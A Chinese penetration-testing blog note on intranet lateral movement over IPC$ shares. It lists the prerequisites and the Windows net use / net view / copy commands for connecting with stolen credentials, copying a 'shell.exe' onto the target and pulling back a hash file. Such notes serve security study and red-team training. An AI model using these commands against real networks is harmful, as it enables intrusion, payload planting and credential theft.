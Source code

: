 ```yaml
---
title: "内网横向移动方法"
date: 2022-06-01T18:08:48+08:00
draft: false
image: 
description: 
comments: true
license: true
math: false
categories:
- note
tags:
- 渗透
- 内网
- 域渗透
---
```


## IPC连接

> 条件：
>
> 1、目标机开启了139和445端口；
>
> 2、目标主机管理员开启了ipc$默认共享；
>
> 3、知道目标机的（权限足够的）账户密码。
>
> 4、NT或以上操作系统

`IPC$(Internet Process Connection)`是共享”命名管道”的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限,在远程管理计算机和查看计算机的共享资源时使用。

利用`IPC$`,连接者甚至可以与目标主机建立一个连接，利用这个连接，连接者可以得到目标主机上的目录结构、用户列表等信息。

命令：

```
net use \\192.168.10.2\ipc$ /user:"username" "password"
//建立ipc连接
net use \\192.168.10.2 /u:domainname\username "password"
// 域中建立ipc连接
net use \\192.168.10.2 /de /y 
// 删除ipc连接(使用完之后记得删除)
```

### 用IPC进行文件目录操作

```
net view \\192.168.10.2 
//查看共享目录
net view \\192.168.10.2\c$\users 
//列出指定目录文件
copy shell.exe \\192.168.10.2\C$\windows\temp\ 
//复制文件到目标目录
copy \\192.168.10.2\C$\windows\temp\hash.txt 
//下载文件到当前目录
net use z: \\192.168.10.2\c$ "密码" /user:"用户名"  
//将对方的c盘映射为自己的z盘
```
